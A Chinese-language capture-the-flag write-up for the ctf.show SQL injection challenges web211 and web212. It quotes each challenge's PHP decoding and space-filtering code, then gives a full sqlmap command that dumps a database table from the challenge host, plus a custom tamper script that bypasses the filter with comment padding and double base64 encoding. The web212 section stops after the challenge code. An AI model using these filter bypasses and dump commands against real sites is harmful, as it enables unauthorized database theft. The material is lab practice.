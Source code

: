 
## web211~空格加编码

> ```
> //对查询字符进行解密
>   function decode($id){
>     return strrev(base64_decode(strrev(base64_decode($id))));
>   }
> function waf($str){
>     return preg_match('/ /', $str);
> }
> ```

那就先加个空格绕过，

```
python2 sqlmap.py -u http://c07a61ff-1abf-4836-aed1-c47bad8a566b.chall.ctf.show/api/index.php --method=PUT --data="id=1" --referer=ctf.show  --headers="Content-Type:text/plain" --safe-url="http://c07a61ff-1abf-4836-aed1-c47bad8a566b.chall.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flavia --dump  --tamper=web211 --batch
```

```python
#!/usr/bin/env python

import base64
from lib.core.convert import encodeBase64
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass


def tamper(payload, **kwargs):
    """
    Base64-encodes all characters in a given payload

    >>> tamper("1' AND SLEEP(5)#")
    'MScgQU5EIFNMRUVQKDUpIw=='
    """
    if payload:
        payload = payload.replace(" ","/**/")
        payload = base64.b64encode(payload[::-1].encode("utf-8"))
        payload = base64.b64encode(payload[::-1].encode("utf-8"))
    return payload
```

## web212

> ```
> //对查询字符进行解密
>   function decode($id){
>     return strrev(base64_decode(strrev(base64_decode($id))));
>   }
> function waf($str){
>     return preg_match('/ |\*/', $str);
> }
> ```
